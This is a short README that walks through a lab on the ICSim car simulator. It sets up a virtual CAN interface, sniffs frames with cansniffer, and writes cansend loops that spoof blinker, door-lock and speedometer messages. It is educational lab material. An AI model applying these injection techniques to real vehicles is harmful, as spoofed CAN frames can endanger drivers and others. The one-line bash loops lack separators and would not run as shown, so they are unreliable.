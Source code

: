 # Car_CAN-Hacking
!!! DISLAIMER - THIS PROJECT IS NOT INTENDED TO BE USED IN A BAD WAY AND IS INTENDED ONLY FOR EDUCATIONAL PURPOSES I NEITHER CONDONE NOR TAKE RESPONSIBILITY FOR SOMEONE
ELSE'S ACTIONS !!!

PREVIEW - ICSim is a simulator of how an actual car computer would work with visuals of a speedometer, blinkers and locked/unlocked doors, which is later on in the
file said as a dashboard

!!! Every command is done in a terminal and would probably need sudo privileges - sudo su !!!

1. Install ICSim

  [Clones the ICSim directory from github into an ICSim directory on your machine]
  - git clone https://github.com/zombieCraig/ICSim
  
2. Setup ICSim 

  [Changes the active directory of the terminal to ICSim's directory]
  - cd ICSim 
  
  [Runs the ICSim setup file]
  - ./setup_vcan.sh
  
3. Run ICSim
  
  [Runs the visual represantation of a car's dashboard with the interface for CAN communacation - vcan0]
  - ./icsim vcan0 (done in one terminal)
  
  [Runs the controls window which would need to be active(selected) in order to control the car using the same interface - vcan0]
  - ./controls vcan0 (done in a second terminal)
  
4. Run cansniffer
  
  [cansniffer is a tool used to sniff CAN packets]
  
  [Runs the cansniffer using the -c tag to helf identify changing data and using the same interface - vcan0]
  - cansniffer –c vcan0 (done in a third terminal)
  
5. Play around with the controls and try to spot what action corresponds to what ID in the cansniffer and how the data changes

6. I see that ID 188 corresponds to the blinkers with left blinker having the data - #010000 and the right blinker having the data - #020000
   	Write a bash script in the linux cmd to make hazard lights (couldn't manage to take a screenshot with both lights on) -
  
		while true do cansend vcan0 188#010000 cansend vcan0 188#020000 done
    
![314419579_1745801909127820_5795919229665972963_n](https://user-images.githubusercontent.com/109030111/201494211-9c4eac66-79f8-4b52-9c28-1ae59e2c5f35.png)

7. I see that ID 19B corresponds to the doors with open doors having the data - #000000 and closed door having the data - #00000F 
   	Write a bash script in the linux cmd to lock and unlock the doors  
   
		while true do cansend vcan0 19B#00000F cansend vcan0 19B#000000 done
		
![314437872_661565698651571_7419970977940910151_n](https://user-images.githubusercontent.com/109030111/201494544-220d8860-2044-41ca-8fd4-f79a956f5180.png)

8. And finally I see that ID 244 corresponds to the speedometer with the speed of 95 having the data - #0000003894
	Write a bash script in the linux cmd to keep the speed at 95 

		while true do cansend vcan0 244#0000003894 done
   
![314445943_1172877640014528_1613940322642097491_n](https://user-images.githubusercontent.com/109030111/201494627-95e13746-8fce-4d2b-b71f-b69beede9c0a.png)

That pretty much wraps up my little CAN-sniffing adventure thank you for reading it and I hope you find it helpful!

By nodlezgucci!
